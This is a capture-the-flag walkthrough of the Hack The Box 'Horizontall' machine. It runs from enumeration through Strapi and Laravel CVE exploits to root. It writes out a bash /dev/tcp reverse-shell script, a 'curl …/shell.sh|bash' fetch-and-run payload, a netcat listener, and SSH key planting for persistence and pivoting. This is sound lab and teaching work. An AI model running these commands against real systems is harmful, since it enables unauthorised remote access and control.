# [Horizontall](https://app.hackthebox.com/machines/Horizontall)

```bash
nmap -p- --min-rate 10000 10.10.11.105
```



After knowing open ports (22,80) we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.105 -Pn
```




We see automatic resolving, that's why let's add into '/etc/hosts' file.




```bash
└─# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali.kali       kali

# The following lines are desirable for IPv6 capable host

10.10.11.105 horizontall.htb
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```


Once we are on website, let's do more enumeration, so that now we do Subdomain Enumeration.

```bash
ffuf -u http://horizontall.htb/ -H "Host: FUZZ.horizontall.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```

From this enumeration, we find 'www' and 'api-prod' subdomains.



Let's do directory enumeration for 'api-prod.horizontall.htb'.

```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```




Once we are '/admin' page of 'api-prod.horizontall.htb' application, we see login form.
And we detect that here 'strapi' is used.




Let's learn version of 'strapi'.




Version: 3.0.0-beta.17.4


Let's search publicly known exploit for this version.



We find 'CVE-2019-18818' AND 'CVE-2019-19609'.


I find such [exploit](https://github.com/glowbase/CVE-2019-19609)



I got reverse shell.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash

```


user.txt




While enumeration for privilege escalation, I see that there is port '8000' is open.




Let's browse port.



I see that it is `Laravel` application.


To see this machine from our attackbox , we need to do **`PIVOTING`**


First, I generate public key to add target's machine via `ssh-keygen` command.




Let's add our public key into target machine. User's home directory called '/opt/strapi'

```bash
cd ~
mkdir .ssh
cd .ssh
echo "public key" >> authorized_keys
```



Now, create bind connection via `ssh` command.

```bash
ssh -i /root/.ssh/id_rsa strapi@10.10.11.105 -L 8001:localhost:8000
```




Let's browse the page and see Laravel application.




Once we browse '/profiles' endpoint of Laravel application, we see version of 'Laravel' application.




Let's search publicly-known exploit.

I find 'CVE-2021-3129' exploit.




Let's use this [exploit](https://github.com/nth347/CVE-2021-3129_exploit)


For this, first download script.

Here's command section which I will curl command that browse my shell.

```bash
shell.sh =>

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.9/2023 0>&1


python3 -m http.server --bind 10.10.14.9 80
```



Then open listener, due to above script.
```bash
nc -nvpl 2023
```



Then run command belongs to exploit.

```bash
python3 exploit.py http://localhost:8001 Monolog/RCE1 'curl http://10.10.14.9/shell.sh|bash'
```




root.txt

